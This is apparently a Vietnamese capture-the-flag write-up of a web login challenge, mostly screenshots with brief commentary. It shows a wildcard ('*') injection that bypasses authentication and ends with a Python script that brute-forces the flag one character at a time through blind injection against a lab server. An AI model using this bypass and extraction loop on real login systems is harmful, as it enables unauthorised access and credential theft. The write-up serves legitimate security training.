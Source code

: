 ![image](https://github.com/user-attachments/assets/c481c7a1-45be-4223-b4b1-35309d81cc66)

Giao diện là login:

![image](https://github.com/user-attachments/assets/69c26dc3-a2d2-4e09-accf-9d3441ed3424)

Sau khi login có quả `message=Authentication%20failed`, sẽ ra sao nếu tôi đổi sang true?

![image](https://github.com/user-attachments/assets/55831f36-6725-4db0-bf9c-be565748578f)

Sau khi fuzz thì không thấy có kết quả gì dùng được

![image](https://github.com/user-attachments/assets/e695947a-8209-4098-9180-e98645e76819)

Tôi nghi là liên quan đến sqli nên treo tạm cái sqlmap:

![image](https://github.com/user-attachments/assets/d74ce5ec-e458-4e4c-8931-13b08c80280f)

Vì cũng có thể là nosql nên tôi thử * và ở cả username và password:

![image](https://github.com/user-attachments/assets/1ecd95d8-f899-4642-a328-51bf51157b62)

Nó ra cái cookie gì đó:

![image](https://github.com/user-attachments/assets/bc1db90b-2c6d-4238-b5a0-12d57fd8839f)

Đi theo thì ra cái này:

![image](https://github.com/user-attachments/assets/f9f256f0-656a-4ad5-a4f3-2151e68cf4cf)

![image](https://github.com/user-attachments/assets/7a33ef4a-0500-4521-86c9-4a7dabbcda6b)

Dùng thử tính năng search thì có vẻ lại là sqli và có vẻ là nosqli:

![image](https://github.com/user-attachments/assets/f68816ea-b19e-4204-bdb4-28babd126766)

Sau 1 lúc mò mẫm thì chả ra cái gì quan trọng ở đây, chỉ là các thông tin chứ không thấy flag, tôi nghĩ có vẻ password hoặc username sẽ là flag

![image](https://github.com/user-attachments/assets/d514114b-6379-4299-989c-a502976d8baa)

Nhìn chữ H là có vẻ chuẩn flag đấy:

![image](https://github.com/user-attachments/assets/8ecf3b29-86ca-4ee3-a551-bb998d03da95)

![image](https://github.com/user-attachments/assets/ac932f8c-723c-42e3-a5cc-448106d02b8f)

Tôi viết 1 đoạn code python be bé:

![image](https://github.com/user-attachments/assets/ace80320-2831-44c3-80c2-688a042126dc)

```
import requests

password = ""
chars = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!\"#$%&+,-./:;<=>?@[]^_`{|}~"

url = "http://94.237.55.185:50677/login"

for index in range(1, 50):
    for char in chars:
        test_password = f"HTB{{{password}{char}*}}"
        data = {"username": "*", "password": test_password}

        response = requests.post(url, data=data)

        print(f"Testing: {test_password}", end="\r")

        if "You can now login using the workstation username and password" not in response.text:
            password += char
            print(f"\nFound: {password}")
            break
```





